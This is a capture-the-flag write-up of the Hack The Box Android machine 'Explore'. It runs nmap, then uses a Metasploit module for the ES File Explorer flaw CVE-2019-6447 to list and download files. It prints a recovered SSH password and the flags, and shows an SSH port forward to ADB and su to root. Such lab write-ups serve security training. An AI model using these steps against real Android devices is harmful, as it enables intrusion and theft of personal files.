

HTB | Explore
1. Introduction
Welcome to this write-up for the easy box named Explore.
In this write-up we'll attack an android device, showing just how important it is to protect devices other than our pc.
2. Recon
As always we start doing some recon on the box.
And we'll quickly find that this isn't a normal box, this is an android phone!
2.1. Nmap
The result from nmap isn't really that useful as it is filled with a lot of noise.
# Nmap 7.91 scan initiated Mon Jul 26 23:11:21 2021 as: nmap -sC -sV -p- -oA nmap/all_ports -v 10.129.161.205
Nmap scan report for 10.129.161.205
Host is up (0.032s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
2222/tcp open ssh (protocol 2.0)
| fingerprint-strings:
| NULL:
|_ SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_ 2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp filtered freeciv
38085/tcp open unknown
| fingerprint-strings:
| GenericLines:
| HTTP/1.0 400 Bad Request
| Date: Mon, 26 Jul 2021 21:12:17 GMT
| Content-Length: 22
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Invalid request line:
| GetRequest:
| HTTP/1.1 412 Precondition Failed
| Date: Mon, 26 Jul 2021 21:12:17 GMT
| Content-Length: 0
| HTTPOptions:
| HTTP/1.0 501 Not Implemented
| Date: Mon, 26 Jul 2021 21:12:22 GMT
| Content-Length: 29
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Method not supported: OPTIONS
| Help:
| HTTP/1.0 400 Bad Request
| Date: Mon, 26 Jul 2021 21:12:37 GMT
| Content-Length: 26
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Invalid request line: HELP
| RTSPRequest:
| HTTP/1.0 400 Bad Request
| Date: Mon, 26 Jul 2021 21:12:22 GMT
| Content-Length: 39
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| valid protocol version: RTSP/1.0
| SSLSessionReq:
| HTTP/1.0 400 Bad Request
| Date: Mon, 26 Jul 2021 21:12:37 GMT
| Content-Length: 73
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Invalid request line:
| ?G???,???`~?
| ??{????w????<=?o?
| TLSSessionReq:
| HTTP/1.0 400 Bad Request
| Date: Mon, 26 Jul 2021 21:12:37 GMT
| Content-Length: 71
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Invalid request line:
| ??random1random2random3random4
| TerminalServerCookie:
| HTTP/1.0 400 Bad Request
| Date: Mon, 26 Jul 2021 21:12:37 GMT
| Content-Length: 54
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Invalid request line:
|_ Cookie: mstshash=nmap
59777/tcp open http Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=7/26%Time=60FF2532%P=x86_64-unknown-linux-gnu
SF:%r(NULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port38085-TCP:V=7.91%I=7%D=7/26%Time=60FF2531%P=x86_64-unknown-linux-gn
SF:u%r(GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon
SF:,\x2026\x20Jul\x202021\x2021:12:17\x20GMT\r\nContent-Length:\x2022\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close
SF:\r\n\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x2
SF:0412\x20Precondition\x20Failed\r\nDate:\x20Mon,\x2026\x20Jul\x202021\x2
SF:021:12:17\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HT
SF:TP/1\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Mon,\x2026\x20Jul\x202
SF:021\x2021:12:22\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20n
SF:ot\x20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad
SF:\x20Request\r\nDate:\x20Mon,\x2026\x20Jul\x202021\x2021:12:22\x20GMT\r\
SF:nContent-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-AS
SF:CII\r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20ver
SF:sion:\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nDate:\x20Mon,\x2026\x20Jul\x202021\x2021:12:37\x20GMT\r\nContent-Len
SF:gth:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConne
SF:ction:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessi
SF:onReq,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,\x2026\x20
SF:Jul\x202021\x2021:12:37\x20GMT\r\nContent-Length:\x2073\r\nContent-Type
SF::\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInv
SF:alid\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\
SF:?`~\?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(Termi
SF:nalServerCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,
SF:\x2026\x20Jul\x202021\x2021:12:37\x20GMT\r\nContent-Length:\x2054\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\
SF:r\n\r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x2
SF:0mstshash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request
SF:\r\nDate:\x20Mon,\x2026\x20Jul\x202021\x2021:12:37\x20GMT\r\nContent-Le
SF:ngth:\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConn
SF:ection:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x0
SF:1\0\0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 26 23:13:53 2021 -- 1 IP address (1 host up) scanned in 151.56 seconds
So here is a quick summary of what we found:
| Service | Daemon | Version | Port |
|---|---|---|---|
| ssh | Banana studio | SSH-2.0-SSH | 2222 |
| freeciv | ? | ? | 5555 |
| unknown | ? | ? | 38085 |
| http | Bukkit JSONAPI | 3.6.0 | 59777 |
If we google the ssh server name, we see that it is related to an android app confirming that it is android running.
Now it would make no sense for a smartphone to be running a minecraft bukkit server now would it?
Spoiler ALERT it doesn't… But googling the port number quickly tells us about CVE-2019-6447, which basically a backdoor in a File manager (ES File Explorer) for android.
3. Exploitation
We can use the vulnerability to read files on the machine, and hopefully find some juicy info.
3.1. ES File explorer
Metasploit has a handy module for exploiting CVE-2019-6447, that we can use for enumerating all kinds of things on the machine.
We can start by looking at installed apps:
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTION LISTAPPS ACTION => LISTAPPS msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run [+] 10.129.161.205:59777 - Result saved to /home/c3lphie/.msf4/loot/20210726234443_default_10.129.161.205_listApps.json_052153.bin [+] 10.129.161.205:59777 Google Play Store (com.android.vending) Version: 22.4.25-21 [0] [PR] 337959405 Gmail (com.google.android.gm) Version: 2020.05.31.316831277.release ES File Explorer (com.estrongs.android.pop) Version: 4.1.9.7.3 Google Play services (com.google.android.gms) Version: 21.02.14 (100800-352619232) SSH Server (net.xnano.android.sshserver) Version: 0.9.1 [*] Scanned 1 of 1 hosts (100% complete) [*] Auxiliary module execution completed
This more or less just confirmed the findings from the nmap scan.
We can also look at pictures on the phone:
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTION LISTPICS ACTION => LISTPICS msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run [+] 10.129.161.205:59777 - Result saved to /home/c3lphie/.msf4/loot/20210726234637_default_10.129.161.205_listPics.json_068875.bin [+] 10.129.161.205:59777 concept.jpg (135.33 KB) - 4/21/21 02:38:08 AM: /storage/emulated/0/DCIM/concept.jpg anc.png (6.24 KB) - 4/21/21 02:37:50 AM: /storage/emulated/0/DCIM/anc.png creds.jpg (1.14 MB) - 4/21/21 02:38:18 AM: /storage/emulated/0/DCIM/creds.jpg 224_anc.png (124.88 KB) - 4/21/21 02:37:21 AM: /storage/emulated/0/DCIM/224_anc.png [*] Scanned 1 of 1 hosts (100% complete) [*] Auxiliary module execution completed
Which proved quite promising with the creds.jpg pricture!
So let's download creds.jpg and get those juicy secrets
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTION GETFILE ACTION => GETFILE sf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg ACTIONITEM => /storage/emulated/0/DCIM/creds.jpg msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run [+] 10.129.161.205:59777 - /storage/emulated/0/DCIM/creds.jpg saved to /home/c3lphie/.msf4/loot/20210726234846_default_10.129.161.205_getFile_244595.jpg [*] Scanned 1 of 1 hosts (100% complete) [*] Auxiliary module execution completed

Bingo!
kristi:Kr1sT!5h@Rp3xPl0r3!
We can now login with using ssh and get a shell!
3.2. Getting access
Now that we have credentials, we can just connect through ssh and get user flag!
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/explore ] └─> $ ssh explore.htb Password authentication (kristi@10.129.161.205) Password: :/ $ whoami u0_a76 :/ $ ls acct init.superuser.rc sbin bin init.usb.configfs.rc sdcard bugreports init.usb.rc sepolicy cache init.zygote32.rc storage charger init.zygote64_32.rc sys config lib system d mnt ueventd.android_x86_64.rc data odm ueventd.rc default.prop oem vendor dev plat_file_contexts vendor_file_contexts etc plat_hwservice_contexts vendor_hwservice_contexts fstab.android_x86_64 plat_property_contexts vendor_property_contexts init plat_seapp_contexts vendor_seapp_contexts init.android_x86_64.rc plat_service_contexts vendor_service_contexts init.environ.rc proc vndservice_contexts init.rc product :/ $ ls sdcard Alarms DCIM Movies Notifications Podcasts backups user.txt Android Download Music Pictures Ringtones dianxinos :/ $ cd sdcard :/sdcard $ cat user.txt f32017174c7c7e8f50c6da52891ae250 :/sdcard $
Next thing we can do tunnel the port to get a connection to the freeciv port which is meant for Android Debugging Bridge.
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/explore ] └─> $ ssh explore.htb -L 5555:127.0.0.1:5555 Password authentication (kristi@10.129.161.205) Password: :/ $
Now we can connect with adb
$ adb connect 127.0.0.1:5555
And the use adb shell to get a basic shell, that we can upgrade to root using su
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/hackthebox/machines/explore ] └─> $ adb shell 1:12 x86_64:/ $ su :/ #
And then finally get the root flag
1|:/ # ls data adb bootchart media property tombstones anr cache mediadrm resource-cache user app dalvik-cache misc root.txt user_de app-asec data misc_ce ss vendor app-ephemeral drm misc_de ssh_starter.sh vendor_ce app-lib es_starter.sh nfc system vendor_de app-private local ota system_ce backup lost+found ota_package system_de :/ # cd data/ :/data # cat root.txt f04fc82b6d49b41c9b08982be59338c5
4. Final words
Thank you for taking some time out of your day to read this post.
If you enjoyed this post, feel free to join my Discord server to get notification whenever I post something and ask questions if there are any.